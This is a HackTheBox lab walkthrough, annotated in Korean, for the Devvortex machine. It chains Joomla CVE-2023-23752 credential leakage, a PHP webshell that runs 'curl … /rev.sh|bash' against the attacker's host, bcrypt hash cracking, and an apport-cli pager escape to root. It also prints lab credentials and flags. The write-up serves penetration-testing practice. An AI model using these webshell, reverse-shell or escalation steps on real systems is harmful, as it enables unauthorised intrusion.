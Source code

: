 # HackTheBox Walkthrough - Devvortex

**Machine Name**: Devvortex  
**Target IP**: 10.129.229.146  
**Operating System**: Ubuntu Linux  
**Difficulty**: [Not specified]  
**Objective**: Exploit Joomla RCE and CVE-2023-1326 to gain root  
![webpage](img/webpage.png)

---

## 🧭 Enumeration

### 🔍 Nmap Scan

```bash
nmap -sV -sC -oA nmap/Devvortex 10.129.229.146
```
![nmap](img/nmap.png)

**Open Ports:**
- 22/tcp - OpenSSH 8.2p1 (Ubuntu)
- 80/tcp - nginx 1.18.0 (Ubuntu)

```bash
/etc/hosts 추가:
10.129.229.146  devvortex.htb
```

---

## 🌐 Web Enumeration

기본 페이지에서 정보 없음 → **Subdomain Enumeration** 시도:

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt:FUZZ -u http://devvortex.htb -H 'Host: FUZZ.devvortex.htb' -fw 4 -t 100
```
![ffuf](img/ffuf.png)

발견: `dev.devvortex.htb`

```bash
/etc/hosts 추가:
10.129.229.146  dev.devvortex.htb
```

### Joomla CMS 발견
![wappalyzer](img/wappalyzer.png)  
![joomla](img/joomla.png)

버전 확인: **4.2.6**  
취약점: **CVE-2023-23752**  
![data](img/data.png)

```bash
ruby exploit.rb http://dev.devvortex.htb
# 결과에서 DB 사용자: lewis / 패스워드: P4ntherg0t1n5r3c0n##
```

관리자 로그인 성공: `lewis / P4ntherg0t1n5r3c0n##`  
![logon](img/logon.png)

### Webshell 업로드 및 Reverse Shell
![revshell](img/revshell.png)

```php
<?php system("curl 10.10.14.72:80/rev.sh|bash"); ?>
```

![shell](img/shell.png)

Reverse shell 연결 및 stable shell 전환 후 DB에서 평문 자격증명 획득  
![port](img/port.png)  
![mysql_cred](img/mysql_cred.png)

---

## 🧪 MySQL 내부 확인

```sql
select * from sd4fg_users;
```

![mysql](img/mysql.png)  
![hashid](img/hashid.png)  
![hashcat](img/hashcat.png)

사용자: `logan`  
bcrypt 해시 크랙: `tequieromucho`

```bash
ssh logan@10.129.229.146
Password: tequieromucho
```

![ssh_logan](img/ssh_logan.png)

### 🧑‍💻 User Flag

```bash
cat /home/logan/user.txt
# => 73fb4da8154226194662a390d14722eb
```

![userflag](img/userflag.png)

---

## 👑 Privilege Escalation

```bash
sudo -l
# (ALL : ALL) /usr/bin/apport-cli
```

![sudo -l](img/sudo.png)

CVE-2023-1326 exploitable:

```bash
echo "ProblemType: Crash" >> /tmp/test.crash
sudo /usr/bin/apport-cli -c /tmp/test.crash
# View report → press V → !/bin/bash
```

![exploit1](img/exploit1.png)  
![exploit2](img/exploit2.png)

### 🏁 Root Flag

![rootflag](img/rootflag.png)

```bash
cat /root/root.txt
# => 30ab4a0362b3f1a679ad98976266883d
```
